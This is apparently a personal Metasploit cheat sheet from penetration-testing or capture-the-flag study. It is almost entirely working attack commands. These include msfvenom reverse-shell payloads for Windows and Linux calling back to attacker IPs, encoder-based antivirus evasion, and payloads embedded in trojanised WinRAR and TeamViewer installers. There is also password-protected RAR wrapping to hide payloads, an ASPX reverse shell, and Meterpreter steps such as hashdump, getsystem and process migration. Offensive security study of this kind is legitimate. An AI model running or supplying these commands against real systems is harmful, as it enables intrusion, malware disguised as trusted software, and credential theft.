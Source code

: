 # **Metasploit**

--------------------------------------------------------------------

## Workspaces

```
service postgresql start
db_status

workspace -a name
workspace -d name
workspace -h (help)

sessions
sessions -k
run autoroute -s 0.0.0.0

analyze
vulns

sudo mv db_autopwn /usr/share/metasploit-framework/plugins
load db_autopwn
db_autopwn -p -t
db_autopwn -p -t -PI 445
```

--------------------------------------------------------------------

## WMAP

```
load wmap
wmap_sites -a 0.0.0.0
wmap_targets -t http://0.0.0.0
wmap_run -t (show modules)
wmap_run -e (run)
wmap_vulns

if GET…. allowed 
> scanner/http/http_put
> change path to /data/
```

--------------------------------------------------------------------

## Msfvenom

> Payloads

```
msfvenom —list payloads

> WINDOWS:

both versions:
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe

just 64 bits:
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > /home/kali/Desktop/Windows_payloads/payloadx64.exe

msfvenom —list formats


> LINUX:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f elf > /Desktop/Linux_Payloads/payloadx86
same as x64


> multi-handler

use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost,lport
```

```
sudo python -m SimpleHTTPServer 80 (Create simple server)
```

> Encoders

```
$ msfvenom —list encoders

$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-e x86/shikata_ga_nai** -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe

**same for linux**

$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe **-k** **-x /Downloads/wrar602.exe** > /home/kali/Desktop/Windows_payloads/payloadx86.exe 
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe **-x /Downloads/wrar602.exe** > /home/kali/Desktop/Windows_payloads/payloadx86.exe 

$ run post/windows/manage/migrate


$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

$ use multi/handler


$ post/multi/recon/local_exploit_suggester   

$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

### Rar encoding
```shell-session
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js
```
```shell-session
mv test.rar test
```
```shell-session
rar a test2.rar -p test
```
```shell-session
mv test2.rar test2
```


> Resource scripts

```
/usr/share/metasploit-framework/resource/

msfconsole -r handler.rc

resource /Desktop/handler.rc
```

--------------------------------------------------------------------

## Meterpreter

```
sysinfo
getsystem
getprivs
getuid
hashdump
show_mount
help
background (go back)
ls
cd
cat
edit flag1
download flag.zip
checksum md5 /bin/bash
getenv PATH
getenv TERM
search -d /usr/bin -f *backdoor*
search -f *.jpg
migrate 2212 (change to x64 or …)
execute -f ifconfig

ctrl-z
post/multi/shell_to_meterpreter

session -u 1
```

--------------------------------------------------------------------